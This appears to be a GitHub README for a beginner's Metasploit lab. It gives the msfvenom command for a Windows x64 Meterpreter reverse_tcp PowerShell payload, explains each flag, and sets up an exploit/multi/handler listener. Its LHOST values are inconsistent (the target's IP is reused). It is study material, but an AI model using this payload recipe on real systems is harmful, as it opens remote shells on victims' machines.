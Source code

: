 # Metasploit-Task-

Metasploit practical

in kali machine
sudo su

msfconsole

locate Metasploit

nmap -v -pn ip address target machine(192.168.127.135)win 10,win8 etc

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.127.135 LPORT=4444 -f psh-cmd

Part	                                    Meaning

msfvenom	A command-line tool used to generate payloads (combines msfpayload + msfencode)

-p	        Payload option: defines which payload module to use

windows/x64/meterpreter/reverse_tcp	The payload:
                                    🔹 windows: Target OS is Windows
                                    🔹 x64: Architecture is 64-bit
                                    🔹 meterpreter: Uses a Meterpreter shell (advanced remote
                                        shell)                              
                                    🔹 reverse_tcp: The payload will connect back (reverse       
                                        shell) to the attacker's machine via TCP

LHOST=192.168.127.135	             Local Host: The attacker's IP address (where the 
                                      connects back)

LPORT=4444	                     Local Port: The port on the attacker's machine to listen on 
                                     (used by the listener like msfconsole)

-f psh-cmd	                     Output format: Generates the payload as a PowerShell command 

                                     string

and open the another tab 

and run msfconsole means Metasploit

and their type command use /exploit/multi/handler

windows/x64/meterpreter/reverse_tcp ad=> windows/x64/meterpreter/reverse_tcp

show option

ifconfig command 

then set LHOST ip addres of kali Linux(192.168.127.132)

show option

exploit



